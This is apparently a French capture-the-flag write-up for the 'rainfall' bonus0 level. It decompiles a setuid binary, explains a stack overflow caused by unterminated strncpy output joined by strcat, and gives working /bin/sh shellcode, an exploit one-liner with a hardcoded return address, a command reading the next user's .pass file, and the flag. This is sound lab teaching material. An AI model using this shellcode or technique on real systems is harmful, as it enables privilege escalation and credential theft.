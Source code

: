 # rainfall : [bonus0]

Observations:
---

#### Source décompilée:
```c
char *p(char *dest, char *s)
{
  char buf[4104];

  puts(s);
  read(0, buf, 0x1000u);
  *strchr(buf, 10) = 0;
  return strncpy(dest, buf, 0x14u);
}

char *pp(char *dest)
{
  char src[20];
  char v3[28];

  p(src, " - ");
  p(v3, " - ");
  strcpy(dest, src);
  *(_WORD *)&dest[strlen(dest)] = ' ';
  return strcat(dest, v3);
}

int main(int argc, const char **argv, const char **envp)
{
  char s[42];

  pp(s);
  puts(s);
  return 0;
}
```

#### Détails du programme:
```bash
-rwsr-s---+ 1 bonus1 users  5566 Mar  6  2016 bonus0
```

#### Fonctions:

| Nom | Description |
| --- | ----------- |
| `<main>` | Appelle la fonction `<pp>` avec comme paramètre le tableau `s` de **42** octets puis affiche le contenu de ce dernier. |
| `<pp>` | Execute la fonction `<p>` deux fois, avec pour chaque appelle son paramètre réspectif; <br> Le tableau `src` de **20** octets ainsi que le tableau `v3` de **28** octets. <br> Ensuite elle copie le contenu de `src` dans le tableau `dest` passée en paramètre d'entrée. <br> Le caractère après la fin de ce tableau est changé en `' '`. <br> Et pour finir `dest` est concaténé avec `v3` et la fonction retourne `dest`. |
 | `<p>` | Affiche la chaîne de caractères `s` passée en paramètre puis lis **4096** octets de l'entrée standard pour les copier dans <br> le tableau `buf` de **4104** octets; Elle remplace ensuite le premier caractére `'\n'` atteignable par un `'\0'`. <br> Pour finir elle copie ensuite **20** octets du tableau `buf` vers `dest` qui est le tableau en paramètre de fonction et retourne ce dernier. |


#### Conclusions:
Même si les fonctions de lectures et de copies parraissent sécurisées aux premier abord, nous pouvons terminer les chaînes de \
caractères par autre chose que zéro. Les deux tableaux étant côte à côte dans la pile, l'appel à `<strcat>` copiera `dest` et `v3` avec `v3`.\
Copiant ainsi jusqu'à **61** caractères permettant ainsi d'écraser l'addresse de retour de la fonction `<main>` qui a une pile de **64** octets. \
Nous pouvons ainsi rediriger l'ordre d'exécution du programme.


----
Résolution:
----
Nous allons remplir le tableau de la première chaîne avec **20** caractères aléatoires. \
Ensuite nous injectons une fonction en shellcode suivis de caractères de bourrages pour compléter l'appel à `<read>` de **4096** octets. \
Nous finissons par remplir partiellement le buffer de read avec **14** octets aléatoire suivis de l'addresse du buffer de `<read>` préalablement récupéré grace a gdb. \
Puis nous rajoutons un octet de bourrage pour décaler correctement la position de l'addresse de retour du à l'ajout d'un espace au tableau `dest` dans la fonction `<pp>`.


#### Injection:
```asm
# La fonction injectée appelle system avec '/bin/sh' en paramètre:

0:  6a 0b                   	push   0xb
2:  58                      	pop    eax
3:  31 f6                   	xor    esi,esi
5:  56                      	push   esi
6:  68 2f 2f 73 68          	push   0x68732f2f
b:  68 2f 62 69 6e          	push   0x6e69622f
10: 89 e3                   	mov    ebx,esp
12: 31 c9                   	xor    ecx,ecx
14: 89 ca                   	mov    edx,ecx
16: cd 80                   	int    0x80
```
#### Commande:
```bash
(python -c "print('A'*20+ '\x6a\x0b\x58\x31\xf6\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\xcd\x80' + 'B'*(4096 - 20 - 24 - 1) + '\n' + 'B'*14 + '\x94\xe6\xff\xbf' + 'C')"; echo 'cat /home/user/bonus1/.pass') | /home/user/bonus0/bonus0
```

**Flag :** cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
